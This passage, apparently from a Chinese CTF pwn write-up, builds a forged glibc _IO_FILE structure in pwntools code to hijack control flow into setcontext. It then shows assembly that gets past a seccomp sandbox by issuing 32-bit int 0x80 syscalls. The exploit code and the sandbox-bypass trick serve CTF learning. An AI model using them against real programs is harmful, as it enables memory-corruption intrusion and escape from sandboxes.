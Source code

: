 在这里我调了好久，但老是进不去 `setcontext`，一开始以为是不是链子不好使了，结果最后 `gdb` 一调才发现我的 `fake_io` 是 `chunk1 - 0x10`，所以 `_flags` 和 `_IO_read_ptr` 已经是固定的了，需要调一调链子。

```python
io_wfile_jumps = libc_base+libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']

fake_io_addr = heap_base + 0xb70                    # 伪造的fake_IO结构体的地址
fake_IO_FILE = p64(0)                               
fake_IO_FILE += p64(0) * 5
fake_IO_FILE += p64(1) + p64(2)                     # rcx!=0(FSOP)
fake_IO_FILE += p64(heap_base + 0xfc0 - 0x50)              # _IO_backup_base=rdx
fake_IO_FILE += p64(setcontext+61)                  # _IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x58, b'\x00')
fake_IO_FILE += p64(0)                              # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, b'\x00')
fake_IO_FILE += p64(heap_base+0x1000)               # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0x90, b'\x00')
fake_IO_FILE += p64(fake_io_addr+0x30)               # _wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, b'\x00')
fake_IO_FILE += p64(1)                              # mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, b'\x00')
fake_IO_FILE += p64(io_wfile_jumps+0x30)            # vtable=IO_wfile_jumps+0x10
fake_IO_FILE += p64(0) * 6
fake_IO_FILE += p64(fake_io_addr+0x40)              # rax2_addr
```

![fake_IO_FILE](https://cdn.novanoir.moe/img/image-20221109112027047.png)

之后，程序流既然可以操控也可以 `ROP` 了，就想着写 `shellcode` 了。这里的沙箱有点🐂，第一次见，是从 `SEKAI CTF 2022 - HELLO WORLD SETUP` 里偷过来的，`i386` 和 `amd64` 的沙箱不一样，但是在 64 位下可以通过调用沙箱中可用的 32 位系统调用号调用 64 位对应的程序调用号（有点拗口？）

> 举个例子，32 位下 `SYS_fstat` 的系统调用号是 `5`，正对应了 64 位下的 `SYS_open`
>
> 此时我们就可以通过 32 位调用系统调用号时的设置。
>
> >  在 32 位下，传参按照 `ebx, ecx, edx, esi, edi, ebp` 的顺序
> >
> > 在 64 位下，就按 64 位 的 `rsi, rdi, rdx, rcx, r8, r9` 的顺序
>
> ```assembly
>     mov rax, 5
>     mov rbx, addr
>     xor rcx, rcx
>     xor rdx, rdx
>     int 0x80        # open(addr, 0, 0)
> ```
>
> 

具体的就直接抄 [HELLO WORLD SETUP WP](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/pwn/hello-world-setup/solution) 的沙箱就好
